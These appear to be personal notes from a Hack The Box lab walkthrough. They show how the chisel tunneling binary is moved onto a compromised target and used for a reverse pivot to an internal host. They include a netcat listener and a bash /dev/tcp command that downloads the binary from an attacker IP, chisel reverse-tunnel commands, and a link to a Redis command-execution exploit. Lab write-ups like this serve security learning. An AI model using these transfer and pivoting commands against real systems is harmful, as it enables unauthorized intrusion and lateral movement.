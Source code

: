 ```
brute	// Quickly get the best compression ratio
```

	./chisel

```
Usage: chisel [command] [--help]

  Version: 0.0.0-src (go1.17.5)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

	cp chisel ~/HTB/Lab/reddish/www

Get chisel to target:

	nc -lvnp 80 < chisel								// serve
	bash -c "cat < /dev/tcp/10.10.16.12/80 > chisel"	// get
	md5sum chisel										// check integrity
	chmod 777 chisel

Reverse pivot:

	chisel server -p 8000 -reverse -v					// 1. Server listens on 8000.	// NOTE THE FINGERPRINT
	./chisel client <kali_box>:8000 ...					// 2. Client connects to server.
	./chisel client <kali_box>:8000 R:8001:<target>:80	// 3. Client: "Hey, I've opened a hole for you (port 8001)."
	./chisel client 10.10.16.12:8000 R:8001:172.19.0.3:80
	
	./chisel client --fingerprint <server_fingerprint> 10.10.16.12:8000 R:127.0.0.1:8001:172.19.0.3:80
	
```
^ this is the secure way to run chisel. Using the server's fingerprint in the client ensures that only you are connecting to the server. Also, specifying 127.0.0.1 limits the tunnel to only people on the local host, not the entire network.
```



So on our kali_box we can:

	curl 127.0.0.1:8001	// run curl on our <kali_box>, out of port 8001, to <target> port 80

```
./chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by ./chisel)
```

^ because of the error I'm going to use a pre-compiled version on Github so it is more compatible. [^3]

Try again with precompiled binary:

	curl 127.0.0.1:8001


[^1]: https://github.com/rebootuser/LinEnum.git
[^2]: https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap
[^3]: https://github.com/jpillora/chisel/releases/
[^4]: https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html